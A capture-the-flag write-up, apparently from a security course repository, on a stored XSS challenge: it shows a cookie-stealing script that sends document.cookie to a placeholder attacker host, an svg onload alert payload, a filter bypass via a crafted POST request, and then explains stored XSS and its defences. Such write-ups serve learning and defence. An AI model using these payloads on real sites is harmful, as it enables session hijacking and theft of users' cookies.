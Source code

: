 ### Challenge

I tried a lot of payloads and techniques to have this flag. I tested first some protections :

The comment input removes anything in <> and changes quotes.
The name input is more permissive but allows <script> with spaces.
I constructed a POST request in insomnia to bypass the limitation of characters in the name field
I tried this payload:
```jsx
< script > document.location=”http://Attacker’sIP/cookiestealer.php?c=”document.cookie; </script>
```

I tried with a local server, and tested with request bin to steal the cookie of a potential bot that might turn out to be the flag. 0 result.

This script worked for an alert, but no flag was given:
```
</script><svg onload=alert("yooo")>
```

AFTER SEVERAL HOURS i saw a flag appeared in the site, we only needed have a `script` word (without < or >) to have the flag...
```
THE FLAG IS : 0FBB54BBF7D099713CA4BE297E1BC7DA0173D8B3C21C1811B916A3A86652724E
```

### Vulnerability

Cross-site scripting (XSS) is a security vulnerability that allows an attacker to inject malicious client-side code into a website.

![cross-site-scripting](https://github.com/Sleleu/darkly/assets/93100775/678dd760-6cee-4bf5-b6e5-78bba5aea712)

This type of attack can be used to steal user's cookies when they visit a vulnerable site (in the case of stored XSS)
or through phishing (in the case of reflected XSS).

In this case, we had in this challenge a stored XSS. It arises when an application receives data from an untrusted source and includes that data within its later HTTP responses in an unsafe way. The attacker does not need to find an external way of inducing other users because the script is now in the application itself, he only need to wait for users to visit the vulnerable website.

### How to prevent from XSS
- Use the flag `HttpOnly` for your cookies, they will be hidden from javascript
- Filter input of users
- Don't make this kind of challenge
- Use modern web framework. Modern web frameworks are less susceptible to XSS vulnerabilities, thanks to improved security measures and built-in protections.
- Use a content security policy (CSP). It reduce the vectors by which XSS can occur by specifying the domains that the browser should consider to be valid sources of executable scripts.

### Ressources
- https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
- https://developer.mozilla.org/fr/docs/web/http/basics_of_http/data_urls
- https://portswigger.net/web-security/cross-site-scripting/stored
- https://www.we45.com/post/how-to-prevent-xss-why-base64-is-not-enough
- https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
